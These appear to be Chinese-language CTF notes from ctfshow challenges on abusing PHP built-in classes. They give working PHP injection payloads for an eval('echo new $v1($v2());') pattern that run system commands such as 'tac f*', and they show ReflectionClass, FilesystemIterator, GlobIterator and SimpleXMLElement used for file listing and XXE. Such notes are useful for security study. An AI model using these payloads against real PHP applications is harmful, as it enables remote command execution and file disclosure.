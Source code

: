^
## **flag在某个类的属性里**
代码执行
```
要读取一个类信息
var_dump(get_class_vars('ctfshow'));

反射获取类信息
echo new ReflectionClass('ctfshow');
```

## **eval和new类结合**
```
eval("echo new $v1($v2());");

让new后面有个正常的类不报错，后拼接操作。payload:
v1=Exception();system('tac f*');//&v2=a



法二 匿名类+魔术方法 
v1=class{ public function __construct(){system('tac fl*');}};&v2=w



或使用echo直接让$v1触发__toString()，此时传递的$v2参数会被输出。
这里需要对v2后面的括号进行解释，如v2=system(ls)，$v2()会把 $v2 返回的值会作为函数Q名去调用，但是调用失败了。

v1=ReflectionClass&v2=phpinfo
v1=ReflectionClass&v2=system('tac f*')
v1=CachingIterator&v2=system(ls)
v1=Exception&v2=system(ls)
```
如果有过滤不能使用()，使用getcwd()方法，无需传参返回当前所在目录。
而FilesystemIterator构造方法根据目录返回第一个文件名。这个文件名一般就是flag文件且可以直接访问
```
v1=FilesystemIterator&v2=getcwd
eval("echo new FilesystemIterator(getcwd());");
```


^
## **存在XXE的类**
PHP的内置类
SimpleXMLElement
对象
```
// 解析 XML 数据
$xmlData = '<root><element>value</element></root>';
$xml = new SimpleXMLElement($xmlData);

// 解析 XML 文件 
URL$xmlUrl = 'http://example.com/example.xml';
$xml = new SimpleXMLElement($xmlUrl, 0, TRUE);
此时外链的xml是存在xxe即可。
```


^
## **搜索文件名的类**
列出当前目录.php结尾有什么文件。
```
new GlobIterator("./*.php",0);
GlobIterator&param=./*.php&param2=0
```